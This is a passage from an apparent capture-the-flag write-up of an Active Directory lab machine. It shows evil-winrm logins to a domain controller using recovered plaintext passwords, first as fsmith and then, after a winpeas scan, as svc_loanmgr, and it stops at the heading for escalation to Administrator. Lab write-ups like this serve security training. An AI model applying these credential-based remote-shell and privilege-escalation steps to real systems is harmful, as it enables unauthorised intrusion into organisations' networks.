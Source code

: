We got the password.

Since this is a Domain Controller, `winrm` is probably enabled, so let's using to connect to the target machine.

```bash
$ evil-winrm -i EGOTISTICAL-BANK.LOCAL -u fsmith -p Thestrokes23

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami
egotisticalbank\fsmith

```

We got a shell!

## **Privilege Escalation**

### fsmith --> svc_loanmgr

Let's run `winpeas` and see what we can find.

![](4.png)

We manged to find `svc_loanmgr`'s password. let's connect to his account.

```bash
$ evil-winrm -i EGOTISTICAL-BANK.LOCAL -u svc_loanmgr -p 'Moneymakestheworldgoround!'                                                                1 ⨯

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> whoami
egotisticalbank\svc_loanmgr
```

### svc_loanmgr --> Administrator
